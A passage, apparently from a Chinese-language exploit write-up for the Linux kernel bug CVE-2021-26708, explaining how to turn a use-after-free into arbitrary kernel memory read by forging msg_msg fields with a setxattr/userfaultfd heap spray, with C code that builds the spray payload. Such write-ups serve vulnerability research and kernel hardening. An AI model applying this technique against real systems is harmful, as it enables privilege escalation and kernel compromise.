 **尝试`virtio_vsock_sock`（`RCX`）**：释放`virtio_vsock_sock`对象（`RCX`），需找到某个大小为64字节的victim对象。

#### 5. 实现任意读

**`msg_msg`—victim对象**：前面讲到利用`msg_msg`作堆喷，现在分析下如何利用`msg_msg`来实现常规的UAF。System V消息的实现中有个消息最大长度`DATALEN_MSG`（值为`PAGE_SIZE - sizeof(struct msg_msg))` == 4048），如果发送的消息过长就会将超过的部分存放在多个段中，`msg_msg->next`指向第1个segment（段头部8字节+消息的其余部分），`msg->m_ts`表示整个的size。这样我们就可以通过堆喷来伪造`msg_msg.m_ts`和`msg_msg.next`来进行利用。

![3-1-overwritten_msg_msg](/images/posts/CVE-2021-26708/3-1-overwritten_msg_msg.png)

**堆喷**：现在不要覆盖`msg_msg.security`，避免破坏`SELinux permission check`，可以使用[`setxattr() & userfaultfd()`通用堆喷技术](https://duasynt.com/blog/linux-kernel-heap-spray) （[中文翻译](https://xz.aliyun.com/t/2814)）来避免覆盖`msg_msg.security`。准备payload的代码如下所示：

`setxattr() & userfaultfd()`通用堆喷技术：针对堆喷无法控制对象的前N个字节的问题、以及小块如`kmalloc-8/16/32`无法控制的问题，例如`msgsnd()`分配路径有个不受控制的前48字节。`setxattr()`函数会在内核中分配用户指定的size，然后将用户数据拷贝进去，最后释放该空间；可以利用`userfaultfd()`在拷贝X字节后转入用户错误处理，使内存块驻留在内核中。

```c
#define PAYLOAD_SZ 40

void adapt_xattr_vs_sysv_msg_spray(unsigned long kaddr)
{
    struct msg_msg *msg_ptr;

    xattr_addr = spray_data + PAGE_SIZE * 4 - PAYLOAD_SZ;	// 伪造结构的起始地址

    /* Don't touch the second part to avoid breaking page fault delivery */
    memset(spray_data, 0xa5, PAGE_SIZE * 4);

    printf("[+] adapt the msg_msg spraying payload:\n");
    msg_ptr = (struct msg_msg *)xattr_addr;					// 
    msg_ptr->m_type = 0x1337;
    msg_ptr->m_ts = ARB_READ_SZ;
    msg_ptr->next = (struct msg_msgseg *)kaddr; /* set the segment ptr for arbitrary read */
    printf("\tmsg_ptr %p\n\tm_type %lx at %p\n\tm_ts %zu at %p\n\tmsgseg next %p at %p\n",
           msg_ptr,
           msg_ptr->m_type, &(msg_ptr->m_type),
           msg_ptr->m_ts, &(msg_ptr->m_ts),
           msg_ptr->next, &(msg_ptr->next));
}
```